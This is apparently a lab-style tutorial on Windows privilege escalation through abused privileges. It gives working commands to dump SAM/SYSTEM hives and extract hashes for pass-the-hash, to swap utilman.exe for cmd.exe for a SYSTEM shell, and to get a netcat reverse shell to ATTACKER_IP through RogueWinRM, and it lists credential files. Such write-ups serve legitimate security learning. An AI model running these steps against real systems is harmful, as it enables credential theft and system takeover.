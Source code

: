 # **Abusing dangerous privileges - Windows Privilege Escalation**

***
![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/622cad3d-d7d0-458d-8009-3b82ea044286)

**In the realm of Windows security, certain privileges wield considerable power, capable of exerting control over critical system functions. These are what we refer to as "Dangerous Privileges." These elevated permissions, when misused or exploited, pose significant risks to the overall integrity and security of the operating system. Here is a Practical Breakdown on How Certain privileges in Windows could lead to Unauthorized Access**

***


- Run this command to check for privileges


```
whoami /priv
```

- Note that only those privileges that allow us to escalate in the system are of interest.


## SeBackup / SeRestore


![](https://i.imgur.com/y9LrrrW.png)





- With this privilege, we can backup the SAM and SYSTEM hashes, we can use the following commands:


```
reg save hklm\system C:\Users\THMBackup\system.hive

reg save hklm\sam C:\Users\THMBackup\sam.hive
```


- Now go ahead and send this 2 files to our attacker machine using any method you like



![](https://i.imgur.com/RrsUzEY.png)



- And use `impacket-secretsdump` to retrieve the users' password hashes:



```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```




![](https://i.imgur.com/HZUGMA0.png)


- We can then use pass the hash to login


![](https://i.imgur.com/7xIilg8.png)




## SeTakeOwnership



![](https://i.imgur.com/Y2z3mob.png)



- We can then abuse `utilman.exe`, a built-in Windows application used to provide Ease of Access options during the lock screen


![](https://i.imgur.com/MS2BtF5.png)



- To replace `utilman`, we will start by taking ownership of it with the following command:


```
takeown /f C:\Windows\System32\Utilman.exe
```


- Then give your current user full permissions over `utilman.exe` you can use the following command:



```
icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
```




**_Example_**



![](https://i.imgur.com/YFNbx3T.png)



- After this, we will replace `utilman.exe` with a copy of `cmd.exe`:




```
copy cmd.exe utilman.exe
```



- To trigger `utilman`, we will lock our screen from the start button
- proceed to click on the **"Ease of Access"** button, which runs `utilman.exe` with `SYSTEM` privileges. Since we replaced it with a `cmd.exe` copy.



![](https://i.imgur.com/oeLERDx.png)


#### **Extra**

Use this with files that might contain credentials such as

- `%WINDIR%\repair\sam`
- `%WINDIR%\repair\system`
- `%WINDIR%\repair\software`
- `%WINDIR%\repair\security`
- `%WINDIR%\system32\config\security.sav`
- `%WINDIR%\system32\config\software.sav`
- `%WINDIR%\system32\config\system.sav`
- `%WINDIR%\system32\config\SecEvent.Evt`
- `%WINDIR%\system32\config\default.sav`
- `c:\inetpub\wwwwroot\web.config`



## SeImpersonate / SeAssignPrimaryToken


- These privileges allow a process to impersonate other users and act on their behalf.


![](https://i.imgur.com/Ztfr87a.png)



- Start a netcat listener to receive a reverse shell on our attacker's machine:


```bash
nc -lvnp 4444
```



- And then, use our web shell to trigger the `RogueWinRM` exploit using the following command
- Make sure to transfer [win-netcat](https://github.com/sec-fortress/Exploits/blob/main/nc64.exe) and [RogueWinRM](https://github.com/sec-fortress/Exploits/blob/main/RogueWinRM.exe) to target machine
- Also note that the `RogueWinRM` file stated earlier might not work, so download from [here](https://github.com/antonioCoco/RogueWinRM) and compile in the windows machine


```
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4444"
```



![](https://i.imgur.com/EGtIOIr.png)


That will be all for today, Have Fun 🥳🙏


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>





